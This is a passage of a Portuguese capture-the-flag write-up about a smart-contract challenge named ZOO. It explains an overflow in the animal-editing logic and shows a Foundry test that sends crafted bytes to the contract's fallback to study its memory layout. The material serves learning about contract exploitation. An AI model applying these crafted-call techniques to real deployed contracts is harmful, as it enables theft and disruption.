 ```
```

# Sobrescrevendo o array functions

Fazendo esse desafio,
eu demorei bastante tempo pra pensar numa forma
de sobrescrever o array `functions`.
Afinal, o overflow que encontramos na edição de animais
simplesmente não alcança o array,
porque ele vem antes dos animais.

Pra entender melhor onde as coisas se situam na memória,
podemos usar o debugger do [foundry](https://github.com/foundry-rs/foundry).
Pra isso,
basta criar um projeto novo com `forge init`
e criar um teste.
Como teste,
vamos criar um animal com:
- `idx = 0x00`
- `name_length = 0x0005`
- `index = 0xaabb`
- `name = 0x1122334455`

Com a análise da função `fallback` que fizemos,
vemos que basta mandar essa sequência de bytes: `10000005aabb1122334455`.
Dessa forma,
nosso contrato só precisa chamar `fallback`
e passar esses bytes como argumento.
Como `fallback` na verdade não é exatamente uma função,
temos que usar `call` e passar nossos bytes pra ele.
```
import {Test, console} from "forge-std/Test.sol";
import {ZOO} from "../src/ZOO.sol";

contract ZOOTest is Test {
    ZOO public zoo;

    function setUp() public {
        zoo = new ZOO();
    }

    function test_bypass_pause() public {
        bytes memory b = hex"10000005aabb1122334455";
        (bool success, bytes memory ret) = address(zoo).call(b);
        if (!success) {
            if (ret.length > 0) {
                assembly {
                    let size := mload(ret)
                    revert(add(0x20, ret), size)
                }
            } else {
                revert("Revert without reason");
            }
        }

        if (zoo.isSolved() == 1) {
            console.log("Success");
        } else {
            console.log("Fail");
        }
    }
}
```
